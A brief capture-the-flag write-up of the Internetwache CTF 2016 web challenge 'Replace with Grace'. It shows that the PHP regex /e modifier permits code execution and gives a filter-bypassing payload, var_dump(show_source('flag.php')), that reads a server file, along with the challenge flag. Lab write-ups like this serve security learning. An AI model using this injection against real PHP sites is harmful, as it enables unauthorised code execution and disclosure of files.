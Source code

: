 ```yaml
---
layout: post
title:  "Internetwache CTF 2016: Replace with Grace (web 60)"
author: sigttou
categories: writeup
tags: [cat/web]
---
```


* **Category:** web
* **Points:** 60
* **Description:** 

> Regular expressions are pretty useful. Especially when you need to search and replace complex terms.

## Write-up

The given website is used to "Search & Replace" with regular expressions.
From other challenges we know, that we can execute php code using:
```php
/(.*)/e
```

The problem was, that the website filtered some inputs like:
- file
- open

It worked with:
```php
var_dump(show_source('flag.php'));
```

A simple, but nice challenge.
```
IW{R3Pl4c3_N0t_S4F3}
```
